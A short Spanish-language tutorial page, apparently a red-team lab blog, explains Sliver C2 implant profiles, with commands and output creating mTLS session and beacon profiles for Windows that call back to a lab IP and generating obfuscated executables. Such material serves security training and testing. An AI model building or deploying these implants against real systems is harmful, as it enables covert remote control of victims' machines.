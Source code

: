 # Perfiles

La generación de implantes, tanto beacons como session, puede resultar tediosa, ya que hay que teclear muchas opciones. Para hacerlo más fácil, exciten los <mark style="color:green;">**perfiles reutilizables**</mark> con una configuración de implante común. L

Por ejemplo se crearán dos perfiles de implantes de sesión  y beacon correspondes a los implantes del blog anterior.

## Perfil de session

{% code overflow="wrap" %}
```bash
profiles new --protocol <ip> --os <os> --arch <arch> --format <format> <name>
```
{% endcode %}

{% code overflow="wrap" %}
```bash
sliver > profiles new --mtls 172.19.0.128 --os windows --arch amd64 --format exe implant_session_win64

[*] Saved new implant profile implant_session_win64

sliver > profiles generate --save  . implant_session_win64

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 30s
[*] Implant saved to /home/kali/Documents/sliverTest/BROAD_LEVER.exe

```
{% endcode %}

## Perfil de Beacon

{% code overflow="wrap" %}
```bash
sliver > profiles new beacon --mtls 172.19.0.128 --os windows --arch amd64 --format exe --seconds 5 --jitter 3 implant_beacon_win64

[*] Saved new implant profile (beacon) implant_beacon_win64

sliver > profiles generate --save . implant_beacon_win64

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 31s
[*] Implant saved to /home/kali/Documents/sliverTest/FUZZY_SNEEZE.exe
```
{% endcode %}
